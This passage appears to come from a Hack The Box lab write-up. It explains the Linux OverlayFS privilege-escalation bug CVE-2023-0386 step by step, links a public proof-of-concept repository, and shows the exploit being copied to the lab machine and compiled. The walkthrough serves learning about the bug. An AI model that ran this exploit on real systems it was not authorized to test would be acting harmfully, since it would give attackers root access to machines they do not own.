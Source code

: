 The exploit works as follows:

1. Create a FUSE (File System in User Space) file system. This virtual file system is backed by a piece of code making it appear as if it contains a single binary that is owned by root (UID 0) and has the SUID bit set. This step requires FUSE, as we do not have the permissions to `chmod root:root` and `chmod +s` on the real file system (which, as explained in [a previous section](https://securitylabs.datadoghq.com/articles/overlayfs-cve-2023-0386/#the-suid-bit), requires the user to be root).
2. Enter a new "user" and "mount" namespace using the `unshare` system call. The sole purpose of this step is to allow us to use `mount` in the next step to create our overlay file system (which normally requires the user to be root).
3. Create a new OverlayFS mount, with:

- as the "lower" directory, the FUSE file system created in step 1
- as the "upper" directory, a world-writable directory such as `/tmp`.

4. Trigger a copy of our SUID binary from the overlay file system to the "upper" directory—for instance, by running `touch` on it. The kernel will:

- catch the file change on the overlay file system
- read the malicious binary from our FUSE file system
- consider that it has the SUID bit set and is owned by root (UID 0), since our FUSE file system tells it so
- **write the file with the same properties** to the "upper" directory, in our case `/tmp`.

At this point, we are left with a SUID binary owned by root in /tmp—all we need to do is exit the user namespace created in step 2 and execute the binary, allowing us to escalate to super admin privileges.

Let's use the following PoC repo:
https://github.com/sxlmnwb/CVE-2023-0386

Let's transfer the exploit first.

```bash
┌──(kali㉿kali)-[~/htb]
└─$ scp CVE-2023-0386.zip admin@10.10.11.221:~/CVE-2023-0386.zip
admin@10.10.11.221's password: 
CVE-2023-0386.zip                        100%   11KB   0.4KB/s   00:28 
```

Then, I need to open two terminals for the exploit.

The first terminal:

```bash
admin@2million:~/CVE-2023-0386-main$ make all
gcc fuse.c -o fuse -D_FILE_OFFSET_BITS=64 -static -pthread -lfuse -ldl
fuse.c: In function ‘read_buf_callback’:
fuse.c:106:21: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘off_t’ {aka ‘long int’} [-Wformat=]
  106 |     printf("offset %d\n", off);
      |                    ~^     ~~~
      |                     |     |
      |                     int   off_t {aka long int}
      |                    %ld
fuse.c:107:19: warning: format ‘%d’ expects argument of type ‘int’, but argument 2 has type ‘size_t’ {aka ‘long unsigned int’} [-Wformat=]
  107 |     printf("size %d\n", size);
      |                  ~^     ~~~~
      |                   |     |
      |                   int   size_t {aka long unsigned int}
      |                  %ld
fuse.c: In function ‘main’:
fuse.c:214:12: warning: implicit declaration of function ‘read’; did you mean ‘fread’? [-Wimplicit-function-declaration]
  214 |     while (read(fd, content + clen, 1) > 0)
      |            ^~~~
      |            fread
```